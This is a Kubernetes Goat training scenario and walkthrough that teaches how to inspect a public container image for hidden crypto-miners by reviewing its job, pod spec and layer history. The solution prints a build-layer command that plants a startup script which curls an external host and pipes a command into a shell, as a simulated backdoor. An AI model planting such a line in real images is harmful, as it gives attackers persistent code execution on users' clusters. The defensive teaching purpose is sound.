

# ⎈ Analysing crypto miner container

## 🙌 Overview

It's commonly seen that most of the container users download the images from the public container registries like Docker Hub and others. We have seen a ton of hacks and compromises of these and also attackers abusing these by uploading the container images which has crypto miners to use the cluster resources. In this scenario, we see one simple and very common way of exploiting these vulnerabilities in the public container images.


By the end of the scenario, we will understand and learn the following

1. You will learn to analyze the container image
2. Understanding Kubernetes jobs and working with them
3. Learning about container image manifests and the backdoors and crypto miners

### ⚡️ The story

Crypto mining has become popular with modern infrastructure. Especially environments like Kubernetes are an easy target as you might not even look at what exactly the container image builds upon and what it is doing with proactive monitoring. Here in this scenario, we will analyze and identify the crypto miner.

:::info

* To get started, identify all the resources/images in the Kubernetes cluster including jobs

```bash
kubectl get jobs
```

:::


### 🎯 Goal

:::tip

To complete this scenario find the `k8s_goat_flag` flag value in the batch-job container image

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Found the container image? </b></summary>
  <div>
    <div>Learn to inspect the container images using the built-in commands in docker 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Still no flag? </b></summary>
  <div>
    <div>Learn to understand how container layers created using history command with full data 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

:::info

Identify all resources within a Kubernetes cluster. If possible get into details of each container image available in all the nodes within the cluster as well

:::

* Once we have identified the job in the Kubernetes cluster, we can obtain the pod information by running the following command

```bash
kubectl describe job batch-check-job
```


* Then get the pod information by running the below command which showcases the pods with the labels and selectors matching

```bash
kubectl get pods --namespace default -l "job-name=batch-check-job"
```

* We can get all the information of the pod spec by running the following command, which returns the entire manifest information in the `YAML` output format

```bash
kubectl get pod batch-check-job-xxxx -o yaml
```


* We can see that this job pod is running `madhuakula/k8s-goat-batch-check` docker container image

* Now we can perform an analysis of this container image, by looking at its layers and how it got created. Here we can see that it contains a command executing the external script in the build time in one of the layer

```bash
docker history --no-trunc madhuakula/k8s-goat-batch-check
```



```bash
echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup && chmod +x /usr/bin/system-startup
```

* Hooray 🥳 , now we can see that it contains the Kubernetes Goat flag

:::danger

This is the common way attackers push crypto miner images into the public container registries where we don't have a way to introspect the `Dockerfile` and end up running crypto miners as we don't know how the container image has been built

:::

## 🔖 References

* [Docker Hub Hack of 190k accounts review](https://medium.com/madhuakula/some-tips-to-review-docker-hub-hack-of-190k-accounts-addcd602aade)
* [20 Million Miners: Finding Malicious Cryptojacking Images in Docker Hub](https://unit42.paloaltonetworks.com/malicious-cryptojacking-images/)
* [Tainted, crypto-mining containers pulled from Docker Hub](https://techcrunch.com/2018/06/15/tainted-crypto-mining-containers-pulled-from-docker-hub/)
